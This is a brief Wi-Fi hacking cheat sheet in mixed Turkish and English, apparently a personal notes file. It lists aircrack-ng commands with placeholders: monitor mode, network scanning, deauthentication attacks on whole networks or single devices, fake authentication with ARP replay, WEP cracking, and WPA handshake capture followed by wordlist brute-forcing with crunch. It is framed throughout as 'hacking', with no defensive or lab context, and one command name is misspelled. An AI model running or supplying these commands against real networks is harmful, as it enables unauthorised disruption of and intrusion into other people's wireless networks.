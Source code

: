 # iwconfig
monitor and managed mode, monitor mode for hacking

# start airmon-ng
airmon-ng start wlan0

# stop airmon-ng
airmon-ng stop wlan0mon
service NetworkManager restart
airmon-ng check kill

# bilgi toplama
airodump-ng wlan0mon

# spesifik ağ bilgi toplama
airodump-ng --channel <channel-name> --bssid <bssid> --write <file-name> <interface-wlanmon0>

# deauth attack

# Tüm ağ için
aireplay-ng --deauth <#package> -a <modem-Mac Address> wlan0mon

# spesifik ağ için (daha etkili)
aiprelay-ng --deauth <#package> -c <cihaz-mac-adress> -a <modem-mac-address> wlan0mon

# WEP ağı kırma (trafik olması lazım)
aircrack-ng <cap file>

# Fake auth
aireplay-ng --fakeauth 0 -a <modem-mac-adress> -h <bizim-pc-mac-adres> wlan0mon
aireplay-ng --arpreplay <> -b <modem-mac-adres> -h <bizim-mac-adres> wlan0mon

# WPA kırmak
bilgi topla
kısa süreli deauth at böylece handshake elde et
aireplay-ng —deauth 10 -a <AP> -c <target> <interface>


crunch 6 12 asd123456 -o wordlist.txt
aircrack-ng <capfile> -w <wordlist>